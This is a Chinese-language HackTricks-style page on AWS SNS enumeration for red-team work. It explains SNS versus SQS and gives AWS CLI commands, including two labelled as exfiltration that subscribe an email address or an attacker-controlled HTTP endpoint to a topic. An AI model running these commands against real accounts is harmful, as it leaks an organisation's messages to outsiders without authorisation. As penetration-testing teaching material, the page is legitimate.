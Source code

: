# AWS - SNS 枚举

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上**关注我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）被描述为一种**完全托管的消息服务**。它支持**应用程序对应用程序**（A2A）和**应用程序对个人**（A2P）通信类型。

A2A 通信的关键特性包括**发布/订阅（pub/sub）机制**。这些机制引入了**主题**，对于实现高吞吐量、**基于推送的多对多消息传递**至关重要。这一特性在涉及分布式系统、微服务和事件驱动的无服务器架构的场景中非常有优势。通过利用这些主题，发布系统可以高效地将消息分发给**各种订阅系统**，促进了扇出消息模式。

### **与 SQS 的区别**

**SQS** 是一种**基于队列**的服务，允许点对点通信，确保消息由**单个消费者**处理。它提供**至少一次交付**，支持标准队列和 FIFO 队列，并允许消息保留以进行重试和延迟处理。\
另一方面，**SNS** 是一种**基于发布/订阅**的服务，通过向**多个订阅者**同时广播消息，实现**一对多**通信。它支持**各种订阅端点，如电子邮件、短信、Lambda 函数和 HTTP/HTTPS**，并提供用于定向消息传递的过滤机制。\
虽然这两种服务都能在分布式系统中实现组件解耦，但 SQS 侧重于队列通信，而 SNS 强调事件驱动、扇出通信模式。

### **枚举**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
请注意，如果主题是FIFO类型，则只能使用协议SQS的订阅者（不能使用HTTP或HTTPS）。

此外，即使`--topic-arn`包含区域，请确保在`--region`中指定正确的区域，否则您将收到一个看起来像是您没有访问权限的错误，但问题实际上是区域不正确。
{% endhint %}

### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 特权升级

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 后渗透

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# 参考资料
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的公司广告或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)系列
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
